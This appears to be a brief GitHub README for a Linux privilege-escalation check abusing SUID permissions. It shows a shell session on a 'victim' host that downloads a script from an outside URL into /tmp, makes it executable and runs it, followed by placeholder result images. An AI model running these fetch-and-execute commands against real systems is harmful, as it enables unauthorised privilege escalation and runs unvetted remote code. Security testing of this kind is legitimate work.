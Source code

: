 # Linux Privilege Escalation

`Abusing SUID Permissions `


```cmd
user@victim:~$ cd /tmp
user@victim:/tmp$ wget "https://raw.githubusercontent.com/d4t4s3c/CPULimit/master/CPU_Fuck.sh"
user@victim:/tmp$ chmod +x CPU_Fuck.sh
user@victim:/tmp$ ./CPU_Fuck.sh
```

**Vulnerability Check**

`YES`

![](/01.png)

`NO`

![](/02.png)
